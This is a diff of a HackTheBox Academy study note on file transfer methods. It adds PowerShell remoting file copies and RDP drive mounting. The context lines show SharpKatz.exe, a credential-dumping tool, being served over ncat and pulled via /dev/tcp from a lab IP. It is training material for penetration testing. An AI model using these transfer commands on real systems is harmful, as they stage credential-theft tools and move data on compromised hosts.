

Before and after one commit to datboyblu3/HackTheBox_Studies, a Markdown page: HTB-Academy/6-File-Transfers/Miscellaneous File Transfer Methods.md, the part around the change. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Completed Misc File Transfer Methods

````diff
--- a/HTB-Academy/6-File-Transfers/Miscellaneous File Transfer Methods.md
+++ b/HTB-Academy/6-File-Transfers/Miscellaneous File Transfer Methods.md
@@ -83,4 +83,62 @@ sudo ncat -l -p 443 --send-only < SharpKatz.exe
 cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
 ```
 
-### Powershell Session File Transfer
+### PowerShell Session File Transfer
+
+- PowerShell Remoting allows us to execute scripts or commands on a remote computer using PowerShell sessions
+- Enabling PowerShell remoting creates both an HTTP and an HTTPS listener
+- The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS
+
+To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the Remote Management Users group, or have explicit permissions for PowerShell Remoting in the session configuration. Let's create an example and transfer a file from DC01 to DATABASE01 and vice versa
+
+**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**
+```
+PS C:\htb> whoami
+
+htb\administrator
+
+PS C:\htb> hostname
+
+DC01
+```
+
+```
+Test-NetConnection -ComputerName DATABASE01 -Port 5985
+```
+
+Because this session already has privileges over DATABASE01, we don't need to specify credentials. In the example below, a session is created to the remote computer named DATABASE01 and stores the results in the variable named $Session
+
+```
+$Session = New-PSSession -ComputerName DATABASE01
+```
+
+**Copy samplefile.txt from our Localhost to the DATABASE01 Session**
+```
+Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
+```
+
+**Copy DATABASE.txt from DATABASE01 Session to our Localhost**
+```
+Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
+```
+
+
+### RDP
+
+Use the Linux tools below to RDP into a machine:
+- xfreerdp
+- rdesktop
+- remmina
+
+As an alternative to copy and paste, we can mount a local resource on the target RDP server. rdesktop or xfreerdp can be used to expose a local folder in the remote RDP session
+
+
+**Mounting a Linux Folder Using rdesktop**
+```
+rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
+```
+
+**Mounting a Linux Folder Using xfreerdp**
+```
+xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
+```
````
